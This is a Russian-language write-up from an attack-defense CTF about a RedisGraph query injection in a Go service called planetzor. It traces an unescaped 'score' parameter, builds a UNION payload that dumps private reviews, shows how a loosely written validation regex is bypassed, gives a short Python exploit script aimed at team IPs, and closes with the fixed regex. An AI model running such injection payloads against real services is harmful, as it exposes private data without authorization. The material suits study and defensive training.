# Инъекция в planetzor
## Поиск уязвимости
Сервис написан на Go. Основной файл - main.go
Для работы с базой данных используется файл db/db.go

Одна из самых частых ошибок - инъекции в запросы к базе данных. Посмотрим какие базы данных используются здесь:

![](https://raw.githubusercontent.com/ArturLukianov/StayHomeWriteup/master/images/planetzor-injection/Screenshot%20from%202020-05-05%2018-50-33.png)

Используется redis и redisgraph. Поищем, не используется ли где сырой запрос в базу данных:

![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/planetzor-injection/Screenshot%20from%202020-05-05%2018-09-31.png)
![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/planetzor-injection/Screenshot%20from%202020-05-05%2018-07-36.png)

Поищем, где используется функция graphQuery():
![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/planetzor-injection/Screenshot%20from%202020-05-05%2018-08-03.png)
![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/planetzor-injection/Screenshot%20from%202020-05-05%2018-08-14.png)
![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/planetzor-injection/Screenshot%20from%202020-05-05%2018-08-27.png)
graphQuery() экранирует двойные кавычки, поэтому отбросим то, где ввод находится между кавычек. Ещё отбросим то, где ввод вообще не используется. Тогда останется только одна функция с сырым запросом, который мы можем эксплуатировать:

![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/planetzor-injection/Screenshot%20from%202020-05-05%2018-09-31.png)

Посмотрим как мы можем проэксплуатировать запрос:

![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/planetzor-injection/Screenshot%20from%202020-05-05%2018-32-59.png)

Параметр "planet" экранируется - это нам не подходит

Зато параметр score не экранируется. Попробуем payload.

## Разработка payload

Находим [документацию](https://oss.redislabs.com/redisgraph/commands/). Сделаем UNION инъекцию.

```sql
MATCH (r:Review {private: FALSE, planet: "planet"}) WHERE r.score = 1 RETURN r UNION MATCH (r:Review)
```
Ограничим вывод публичных записей, они нам не нужны:
```sql
MATCH (r:Review {private: FALSE, planet: "%s"}) WHERE r.score = 1 RETURN r LIMIT 1 UNION MATCH (r:Review {private: TRUE})
```

Итоговый payload:
```sql
1 RETURN r LIMIT 1 UNION MATCH (r:Review)
```

## Поиск точки эксплуатации

Мы нашли, что эксплуатировать и как. Осталось найти url и в каком виде передавать параметры:
![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/planetzor-injection/Screenshot%20from%202020-05-05%2018-12-37.png)
![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/planetzor-injection/Screenshot%20from%202020-05-05%2018-30-40.png)

Параметры передаются в GET запросе и не требуют аутентификации

Тут можно заметить, что параметр score проверятся score с помощью ValidateScore, который мешает эксплуатации

![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/planetzor-injection/Screenshot%20from%202020-05-05%2019-42-20.png)

## Обход ValidateScore

Регулярное выражение неправильно - оно проверяет на наличие хотя бы одного символа подходящего под [1-5], и такой присутствует в нашем payload. Обойдено.

## Эксплуатация

Протестируем наш payload.
Вначале создадим приватную запись с "флагом":
Проверим, что флаг не отображается публично:
Попробуем использовать наш payload:
Отлично, всё работает!

Сделаем sploit для destructive farm:
```python
import requests
import sys

payload = "1 RETURN r LIMIT 1 UNION MATCH (r:Review)"

ip = sys.argv[1]
url = "http://" + ip + ":4000/reviews"
print(requests.get(url, params={'score': payload}).text)
```

##  Патчинг

Для патчинга достаточно починить регулярное выражение:

![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/planetzor-injection/Screenshot%20from%202020-05-05%2019-42-20.png)

`^[1-5]$`
